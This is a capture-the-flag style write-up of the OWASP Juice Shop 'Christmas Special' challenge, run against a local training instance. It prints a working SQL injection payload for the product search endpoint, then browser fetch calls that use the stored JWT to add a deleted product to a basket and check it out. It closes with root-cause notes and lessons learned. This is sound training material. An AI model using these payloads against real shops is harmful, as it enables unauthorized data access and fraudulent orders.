





# Christmas Special

## Challenge Information

| Field              | Details                                     |
| ------------------ | ------------------------------------------- |
| **Challenge**      | Christmas Special                           |
| **Category**       | Injection                                   |
| **Difficulty**     | 4                                         |
| **Challenge ID**   | `christmasSpecialChallenge`                 |
| **Objective**      | Order the Christmas special offer of 2014   |
| **Target Product** | Christmas Super-Surprise-Box (2014 Edition) |
| **Product ID**     | `10`                                        |

---

## 1. Reconnaissance / Discovery

### 1.1 Inspect the Products API

The first step was to identify how the application represents products and whether deleted products were exposed through the normal API.

```bash
curl -s http://127.0.0.1:42000/api/Products | jq '.data[0]'
```

The response showed that products use a `deletedAt` field:

```json
{
  "id": 1,
  "name": "Apple Juice (1000ml)",
  "description": "The all-time classic.",
  "price": 1.99,
  "deluxePrice": 0.99,
  "image": "apple_juice.jpg",
  "createdAt": "2026-10-02T18:30:32.534Z",
  "updatedAt": "2026-10-02T18:30:32.534Z",
  "deletedAt": null
}
```

The important field was:

```text
deletedAt
```

A `null` value indicates that the product has not been deleted.

---

### 1.2 Search the Application Source for `deletedAt`

To understand how deleted products were hidden, the application source was searched:

```bash
grep -Rni -C 8 "deletedAt" /var/lib/juice-shop/routes /var/lib/juice-shop/build/routes 2>/dev/null | head -150
```

This revealed the product search query in:

```text
/var/lib/juice-shop/routes/search.ts
```

The relevant query was:

```ts
models.sequelize.query(`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`)
```

The query contains two important conditions:

```sql
(name LIKE '%${criteria}%' OR description LIKE '%${criteria}%')
AND deletedAt IS NULL
```

The `deletedAt IS NULL` condition is intended to prevent deleted products from appearing in search results.

The search route was also marked in the source as vulnerable to SQL injection:

```ts
// vuln-code-snippet start unionSqlInjectionChallenge dbSchemaChallenge
```

---

## 2. Testing the Search Function

### 2.1 Normal Search

A normal search request was first tested:

```bash
curl -iG 'http://127.0.0.1:42000/rest/products/search' \
  --data-urlencode 'q=apple'
```

The application returned matching products such as Apple Juice and Apple Pomace.

This established the normal search endpoint:

```text
/rest/products/search
```

---

### 2.2 Test for SQL Injection

A single quote was supplied as input:

```bash
curl -sG 'http://127.0.0.1:42000/rest/products/search' \
  --data-urlencode "q='"
```

The application returned:

```json
{"status":"success","data":[]}
```

A second test used:

```bash
curl -sG 'http://127.0.0.1:42000/rest/products/search' \
  --data-urlencode "q=apple%'"
```

This resulted in an SQL error:

```text
SQLITE_ERROR: no such column: apple
```

The error confirmed that user-controlled search input was reaching the SQL query without proper parameterization.

The database engine was also identified as **SQLite** from the error message.

---

## 3. Bypassing the Deleted Product Filter

The vulnerable query contained:

```sql
AND deletedAt IS NULL
```

The next step was to determine whether the SQL condition could be manipulated so that deleted products would also be returned.

The working payload was:

```bash
curl -sG 'http://127.0.0.1:42000/rest/products/search' \
  --data-urlencode "q=%' OR 1=1)) -- "
```

This caused the search to return products that normally would not appear in the frontend, including products with non-null `deletedAt` values.

Examples included:

```text
ID 10  Christmas Super-Surprise-Box (2014 Edition)
ID 11  Rippertuer Special Juice
ID 12  OWASP Juice Shop Sticker (2015/2016 design)
ID 27  Juice Shop Artwork
ID 28  Global OWASP WASPY Award 2017 Nomination
ID 31  OWASP Juice Shop Sweden Tour 2017 Sticker Sheet
ID 39  Juice Shop Adversary Trading Card (Common)
ID 40  Juice Shop Adversary Trading Card (Super Rare)
ID 44  20th Anniversary Celebration Ticket
ID 46  DSOMM & Juice Shop User Day Ticket
```

This demonstrated that the SQL injection could bypass the application's deleted-product filter.



---

## 4. Identify the Christmas Special Product

The challenge required the specific Christmas special product.

The application configuration was searched for the challenge-specific product marker:

```bash
grep -Rni "useForChristmasSpecialChallenge" /var/lib/juice-shop \
  --exclude-dir=node_modules \
  --exclude-dir=build \
  | head -50
```

The relevant configuration was then inspected:

```bash
sed -n '145,170p' /var/lib/juice-shop/config/default.yml
```

The configuration identified:

```yaml
name: 'Christmas Super-Surprise-Box (2014 Edition)'
description: 'Contains a random selection of 10 bottles (each 500ml) of our tastiest juices and an extra fan shirt for an unbeatable price!'
price: 29.99
image: undefined.jpg
useForChristmasSpecialChallenge: true
```

The previously discovered product list showed that this product had:

```text
Product ID: 10
```

Therefore, **Product 10** was the target of the challenge.



---

## 5. Investigate the Basket API

The challenge required the deleted product to be placed into the shopping basket.

The basket-related routes were located with:

```bash
grep -Rni -E "basket|Basket|addToBasket|add.*product" \
  /var/lib/juice-shop/routes \
  /var/lib/juice-shop/build/routes 2>/dev/null | head -100
```

The relevant route was:

```text
/var/lib/juice-shop/routes/basketItems.ts
```

The basket item creation logic was inspected:

```bash
sed -n '15,58p' /var/lib/juice-shop/routes/basketItems.ts
```

The important section was:

```ts
const basketItem = {
  ProductId: productIds[productIds.length - 1],
  BasketId: basketIds[basketIds.length - 1],
  quantity: quantities[quantities.length - 1]
}

const basketItemInstance = BasketItemModel.build(basketItem)
basketItemInstance.save()
```

There was no deleted-product validation before the basket item was saved.

The API endpoint was identified in `server.ts`:

```text
POST /api/BasketItems/
```

The frontend normally sends:

```json
{
  "ProductId": <id>,
  "BasketId": "<basket id>",
  "quantity": 1
}
```

---

## 6. Obtain the Basket ID

After logging into the Juice Shop application, the browser's session storage was checked:

```javascript
sessionStorage.getItem('bid')
```

The result was:

```text
"1"
```

Therefore:

```text
Basket ID = 1
```

The authentication token was found in `localStorage` rather than `sessionStorage`:

```javascript
Object.keys(localStorage)
```

The result included:

```text
"token"
```

The token itself was not included in the documentation or screenshots.

---

## 7. Add the Deleted Product Directly to the Basket

The first attempt to call the basket API without authentication returned:

```text
401 UnauthorizedError: No Authorization header was found
```

The authenticated request was therefore sent with the JWT from `localStorage`:

```javascript
fetch('/api/BasketItems/', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'Authorization': 'Bearer ' + localStorage.getItem('token')
  },
  body: JSON.stringify({
    ProductId: 10,
    BasketId: '1',
    quantity: 1
  })
}).then(r => r.text()).then(console.log)
```

The application accepted the deleted product:

```json
{
  "status": "success",
  "data": {
    "id": 9,
    "ProductId": 10,
    "BasketId": "1",
    "quantity": 1
  }
}
```

This demonstrated that the backend basket endpoint accepted Product 10 even though the product had been deleted and was hidden from the normal frontend.



---

## 8. Verify the Product in the Basket

The basket was then retrieved directly through the API:

```javascript
fetch('/rest/basket/1', {
  headers: {
    'Authorization': 'Bearer ' + localStorage.getItem('token')
  }
}).then(r => r.json()).then(x =>
  console.log(x.data.Products.filter(p => p.id === 10))
)
```

The response confirmed that Product 10 was present:

```text
Array [
  {
    id: 10,
    name: "Christmas Super-Surprise-Box (2014 Edition)",
    ...
  }
]
```



---

## 9. Investigate the Checkout Endpoint

The checkout implementation was inspected:

```bash
sed -n '1,120p' /var/lib/juice-shop/routes/order.ts
```

The checkout route processes the products in the basket and contains the challenge trigger:

```ts
challengeUtils.solveIf(
  challenges.christmasSpecialChallenge,
  () => {
    return BasketItem.ProductId === products.christmasSpecial.id
  }
)
```

This means the challenge is solved when the Christmas Special product is processed during checkout.

The endpoint was identified in `server.ts` with:

```bash
grep -n -C 3 "placeOrder\|checkout" /var/lib/juice-shop/server.ts
```

The relevant route was:

```ts
app.post('/rest/basket/:id/checkout', placeOrder())
```

For Basket ID `1`, the checkout endpoint was therefore:

```text
POST /rest/basket/1/checkout
```

---

## 10. Trigger Checkout

The authenticated checkout request was sent from the browser console:

```javascript
fetch('/rest/basket/1/checkout', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'Authorization': 'Bearer ' + localStorage.getItem('token')
  },
  body: JSON.stringify({
    couponData: null,
    orderDetails: {}
  })
}).then(r => r.text()).then(console.log)
```

The application returned:

```text
You successfully solved a challenge: Christmas Special
(Order the Christmas special offer of 2014.)
```



---

## 11. Attack Surface

The challenge involved several connected attack surfaces:

* Product search API
* SQL query construction
* `deletedAt` product filtering
* `/api/BasketItems/`
* Basket retrieval API
* Checkout API
* Application configuration
* Authentication/JWT handling

The vulnerable flow was:

```text
Product Search
      ↓
SQL Injection
      ↓
Deleted Product Discovery
      ↓
Direct Basket API
      ↓
Deleted Product Added
      ↓
Basket Verification
      ↓
Checkout
      ↓
Christmas Special Challenge Solved
```

---

## 12. Security Impact

The application attempted to hide deleted products by adding:

```sql
AND deletedAt IS NULL
```

to the product search query.

However, because the search input was directly interpolated into the SQL statement, the filter could be bypassed.

The basket API introduced a second weakness because it accepted a product ID without independently checking whether the product was available for purchase.

As a result, a product that was intentionally unavailable through the frontend could still be:

1. Discovered through SQL injection.
2. Added directly through the backend API.
3. Placed into a basket.
4. Processed during checkout.

This demonstrates why security controls implemented only in the frontend should not be trusted as the final authorization or business-logic boundary.

---

## 13. Root Cause

The primary SQL injection vulnerability originated from constructing the SQL statement through string interpolation:

```ts
SELECT * FROM Products
WHERE ((name LIKE '%${criteria}%'
OR description LIKE '%${criteria}%')
AND deletedAt IS NULL)
```

User-controlled input should not be concatenated directly into SQL statements.

A second issue was the lack of server-side product availability validation when creating a basket item.

The backend accepted:

```json
{
  "ProductId": 10,
  "BasketId": "1",
  "quantity": 1
}
```

without rejecting the deleted product.

---

## 14. Lessons Learned

* Search functionality can expose SQL injection vulnerabilities when user input is concatenated into queries.
* SQL injection can affect more than authentication; it can alter business-logic queries and expose hidden records.
* `deletedAt IS NULL` is not an effective security boundary when the SQL query itself is injectable.
* Frontend restrictions must not be treated as backend security controls.
* APIs should independently validate whether a product is available before adding it to a basket.
* Mapping the complete attack surface is important because the vulnerability may require chaining multiple weaknesses.
* The final exploit was not a single request; it required connecting **SQL injection → deleted product discovery → API manipulation → checkout**.

---

## 15. Conclusion

The Christmas Special challenge was solved by identifying a SQL injection vulnerability in the product search functionality and using it to bypass the `deletedAt IS NULL` filter.

The hidden Christmas Special product was identified as Product ID `10`. The product was then added directly to the authenticated basket through `/api/BasketItems/`, bypassing the frontend's availability restrictions.

Finally, the basket was checked out through `/rest/basket/1/checkout`, causing the application to process the Christmas Special product and trigger the challenge.

**Challenge Status: Solved ✅**
